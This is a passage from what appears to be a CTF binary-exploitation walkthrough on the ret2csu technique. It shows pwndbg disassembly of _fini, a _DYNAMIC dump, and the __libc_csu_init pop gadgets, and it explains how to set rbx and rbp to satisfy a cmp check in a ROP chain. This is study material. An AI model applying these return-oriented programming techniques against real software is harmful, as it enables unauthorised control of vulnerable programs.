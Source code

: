 One such that we can call is the `__fini` function as it only contains the following instructions:

```shell
pwndbg> disassemble _fini
Dump of assembler code for function _fini:
   0x00000000004008d4 <+0>:     sub    rsp,0x8
   0x00000000004008d8 <+4>:     add    rsp,0x8
   0x00000000004008dc <+8>:     ret
```

However, this function is only used at runtime (cannot directly use offset), but we can use `&_DYNAMIC` to help us. `&_DYNAMIC` is used as part of the linking process in compilation.

```shell
pwndbg> x/10gx &_DYNAMIC
0x600e20:       0x0000000000000001      0x0000000000000001
0x600e30:       0x000000000000000c      0x00000000004005a0
0x600e40:       0x000000000000000d      0x00000000004008d4
0x600e50:       0x0000000000000019      0x0000000000600e10
0x600e60:       0x000000000000001b      0x0000000000000008
```

As you can see, our `_fini` is located at `0x600e48`.

2. `cmp rbp,rbx`

We need to ensure that we match the 2 register values, else it will re-run the set of intructions again:

```shell
0x00000000004008b4 <+84>:    jne    0x4008a0 <__libc_csu_init+64>
```

And we also observe this, which is good news:

```shell
0x00000000004008ad <+77>:    add    rbx,0x1
```

We can control the register values of `rbx` and `rbp`. So in this case, we just need to set `rbp` to `1`, and `rbx` to `0`.


### Recap

Now that we know what to fulfil, let's revisit this set of gadgets:

```shell
   0x00000000004008ba <+90>:    pop    rbx
   0x00000000004008bb <+91>:    pop    rbp
   0x00000000004008bc <+92>:    pop    r12
   0x00000000004008be <+94>:    pop    r13
   0x00000000004008c0 <+96>:    pop    r14
   0x00000000004008c2 <+98>:    pop    r15
   0x00000000004008c4 <+100>:   ret
```

Based on what we need, the ones we need are actually `rbp`, `r12` & `r15`.

`rbp` we will need to set it to value of `1` because of the `cmp` instruction in **Part 1**.
